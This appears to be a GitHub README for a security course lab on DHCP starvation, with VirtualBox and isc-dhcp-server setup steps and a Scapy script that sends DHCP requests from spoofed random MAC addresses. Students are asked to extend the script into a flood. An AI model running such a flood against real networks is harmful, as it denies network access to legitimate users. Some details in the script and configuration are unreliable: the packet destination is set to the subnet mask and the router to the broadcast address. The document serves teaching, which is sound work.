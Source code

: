# DHCP Starvation Lab
![](https://img.shields.io/badge/license-Apache--2.0-brightgreen.svg)

In this lab we will use [Kali](https://www.kali.org), [Ubuntu](https://www.ubuntu.com) & [Scapy](https://scapy.net/). 

## Lab Overview
### The Dynamic Host Configuration Protocol (DHCP)
DHCP is a network management protocol used on UDP/IP networks whereby a DHCP server dynamically assigns an IP address and other network configuration parameters to each device on a network so they can communicate with other IP networks.

When a client system without an IP address enters a network it will request an IP address from the resident DHCP server. The DHCP server will reserve an IP address (so anyone else asking for one is not granted this one) and it will send that IP address to the device along with a lease identifying how long the address will be valid. Normally, from this point, the device will respond by confirming the IP address with the DHCP server and the DHCP server finally responds with an acknowledgement.

### The DHCP Starvation
Once the adversary receives the IP address and the lease period from the DHCP server, the adversary does not respond with the confirmation. Instead, the adversary floods the DHCP server with IP address requests until all addresses within the server’s address space have been reserved (exhausted). At this point, any hosts wishing to join the network will be denied access, resulting in a denial of service.

## Lab Environment
If [VirtualBox](https://www.virtualbox.org) is not installed on your computer, install it now.<br>

- DHCP Server (Ubuntu):<br>
  ```
  VBoxManage startvm "Ubuntu"
  ```
- Client (Ubuntu 16.04 VM):<br>
  ```
  VBoxManage startvm "Ubuntu-16-04"
  ```
- Attacker (Kali 64bit VM):<br>
  ```
  VBoxManage startvm "Kali-64bit"
  ```

![](Images/dhcp_spoofing.jpgggggg)

## Configure the DHCP Server
For the DHCP server, we need to run a DHCP server program.<br>
The most widely used DHCP server software is called isc-dhcp-server.

### 1. Updating package tree in Ubuntu
In order to install an isc-dhcp-server in Kali Linux.<br>
First, we need to make sure the package tree is up –to-date with the latest software versions by issuing the below command.<br>
```sh
$ sudo apt-get update
```

### 2. Installing DHCP Server in Ubuntu
Run the command below to install the DCHP server package, which was formerly known as dhcp3-server.<br>
```sh
$ sudo apt install isc-dhcp-server
```

When the installation completes, edit the file `/etc/default/isc-dhcp-server` to define the interfaces DHCPD should use to serve DHCP requests, with the INTERFACES option.<br>
For example, if you want the DHCPD daemon to listen on eth0, set it:<br>
```
INTERFACES="eth0"
```

### 3. Configuring DHCP Server in Ubuntu
The main DHCP configuration file is `/etc/dhcp/dhcpd.conf`, you must add all your network information to be sent to clients here.
And, there are two types of statements defined in the DHCP configuration file, these are:

- parameters – specify how to perform a task, whether to carry out a task, or what network configuration options to send to the DHCP client.<br>
- declarations – define the network topology, state the clients, offer addresses for the clients, or apply a group of parameters to a group of declarations.

Now, open and modify the main configuration file, define your DHCP server options:<br>
```sh
$ sudo nano /etc/dhcp/dhcpd.conf
```

Set the following global parameters at the top of the file, they will apply to all the declarations below (do specify values that apply to your scenario):<br>
```
default-lease-time 600;
max-lease-time 7200;
authoritative;
```

Now, define a subnetwork; here, we’ll setup DHCP for 10.0.0.0/24 LAN network (use parameters that apply to your scenario).<br>
```
subnet 10.0.0.0 netmask 255.255.255.0 {
    range 10.0.0.100 10.0.0.200;
    option routers 10.0.0.255;
    option subnet-mask 255.255.255.0;
    option broadcast-address 10.0.0.255;
    default-lease-time 600;
    max-lease-time 7200;
}
```

Next, start the DHCP service for the time being, and enable it to start automatically from the next system boot, like so:<br>
```sh
$ sudo systemctl start isc-dhcp-server.service
```
```sh
$ sudo systemctl enable isc-dhcp-server.service
```

### 4. Configuring DHCP Client Machines (Ubuntu and Kali)
At this point, you can configure your clients computers on the network to automatically receive IP addresses from the DHCP server.
Login to the client computers and edit the Ethernet interface configuration file as follows (take note of the interface name/number):<br>
```sh
$ sudo nano /etc/network/interfaces
```

And define the options below:<br>
```
auto eth0
iface eth0 inet dhcp
```

Save the file and exit. And restart network services like so (or reboot the system):<br>
```sh
$ sudo systemctl restart networking
```
**NOTE**: Do it for Client (Ubuntu) and Attacker (Kali)

## Lab Tasks
```sh
$ git clone https://github.com/sagikandleker/DHCP-Starvation-Lab
```
### Task 1: Run `run_script`.
```sh
$ python run_script.py
```
```py
from scapy.all import *

def main():
	broadcast = "ff:ff:ff:ff:ff:ff"
	conf.checkIPaddr = False
	ip_address_subnet = "10.0.0.120"
	subnet_mask = "255.255.255.0"
	dhcp_ip_address = "10.0.0.50"

	bogus_mac_address = RandMAC()
	dhcp_request = Ether(src=bogus_mac_address, dst=broadcast)/IP(src="0.0.0.0", dst=subnet_mask)/UDP(sport=68, dport=67)/BOOTP(chaddr=bogus_mac_address)/DHCP(options=[("message-type","request"),("server_id",dhcp_ip_address),("requested_addr", ip_address_subnet),"end"])

	sendp(dhcp_request)
	print "Requesting: " + ip_address_subnet + "\n"

if __name__=="__main__":
    main()
```

### Task 2: Improve `run_script`.


## Submission
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed.<br>
You also need to provide explanation to the observations that are interesting or surprising.<br>
Please also list the important code snippets followed by explanation.<br>
Simply attaching code without any explanation will not receive credits.
